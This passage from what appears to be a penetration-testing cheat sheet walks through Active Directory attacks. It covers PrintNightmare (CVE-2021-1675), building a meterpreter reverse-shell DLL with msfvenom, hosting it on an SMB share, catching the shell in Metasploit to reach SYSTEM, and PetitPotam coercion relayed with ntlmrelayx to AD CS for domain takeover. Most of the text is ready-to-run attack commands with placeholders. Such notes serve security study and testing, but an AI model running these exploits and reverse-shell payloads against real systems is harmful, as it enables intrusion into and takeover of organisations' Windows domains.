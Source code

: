 We can use **rpcdump.py** to check if **Print System Asynchronous Protocol** and **Print System Remote Protocol**:
```console
zero@pio$ rpcdump.py @<IP> | egrep 'MS-RPRN|MS-PAR'
```

After confirming it, we can create a DDL payload:
```console
zero@pio$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=8080 -f dll > backupscript.dll
```

We will host this payload in a SMB share using **smbserver.py**:
```console
zero@pio$ sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```

We can use MSF now to start a listener:
```console
msf > use exploit/multi/handler
msf > set PAYLOAD windows/x64/meterpreter/reverse_tcp 
msf > set LHOST 10.129.202.111 
msf > set LPORT 8080
msf > run
```

Now, run the exploit:
```console
zero@pio$ sudo python3 CVE-2021-1675.py <DOMAIN>.local/<USER>:<PASSWORD>@172.16.5.5 '\\<OUR IP>\CompData\backupscript.dll'
```

If everything works, we will have a SYSTEM shell.

### PetitPotam (MS-EFSRPC) 

PetitPotam ([CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)) is an LSA spoofing. An unauthenticated attacker can coarce the DC to authenticate against another host using NTLM over oort 445 via **Local Security Authority Remote Protocol** (**LSARPC**), by abusing Microsoft's **Encrypting FIle System Remote Protocol** (**MS-EFSRPC**). This allows an unauthenticated attacker to take over a Windows Domain where **Active Directory Certificate Services** (**AD CS**) are in use. This can be used with **Rubeus** or **gettgtpkinit.py** from [PKINITtools](https://github.com/dirkjanm/PKINITtools). [Here](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/) is explain in detail.

First, we need to start **ntlmrelayx.py**, specifying the **Web Enrollment URL** for the CA host, using KerberosAuthentication or DomainController AD CS template. We could use a tool like [certi](https://github.com/zer1t0/certi) to locate the cert.
```console
zero@pio$ sudo ntlmrelayx.py -debug -smb2support --target http://<DC COMPUTER NAME>.<DOMAIN>.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

While this is running, execute [PetitPotam.py](https://github.com/topotam/PetitPotam). There is an executable version for Windows host. ALso, mimikatz has this authentication trigger and can be use as `misc::efs /server:<DC> /connect:<ATTACK HOST>`. Also, here we have the [Invoke-PetitPotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1). Using the [EfsRpcOpenFileRaw](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8):
```console
zero@pio$ python3 PetitPotam.py <ATTACK HOST> <DC HOST>  
```
